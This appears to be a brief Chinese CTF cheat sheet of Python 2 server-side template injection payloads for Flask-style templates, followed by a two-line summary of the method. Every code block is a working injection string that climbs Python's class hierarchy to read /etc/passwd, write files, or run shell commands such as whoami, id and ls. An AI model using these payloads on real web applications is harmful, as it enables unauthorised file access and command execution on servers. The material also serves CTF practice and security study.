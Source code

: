 
在比赛中其实有些函数还是蛮难找的，不知道该用哪些类所以会有一些常用的payload:


都是py2的：


读写文件：


```plain
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('/etc/passwd').read()    #将read() 修改为 write() 即为写文件
Plain Text
```



```plain
[].__class__.__base__.__subclasses__()[40]('/etc/passwd').read() #将read() 修改为 write() 即为写文件
Plain Text
```



命令执行：


```plain
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')
Plain Text
```



```plain
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.values()[144]('whoami')
Plain Text
```



```plain
{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()
Plain Text
```



```plain
{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('commands').getstatusoutput('ls')
Plain Text
```



总的来说：


首先就是判断，是否存在ssti模板注入点


确定找到注入点之后，由于flask等ssti模板都是由python编写，我们又可以在上面执行代码，于是就能够在ssti上查找框架中所包含的类
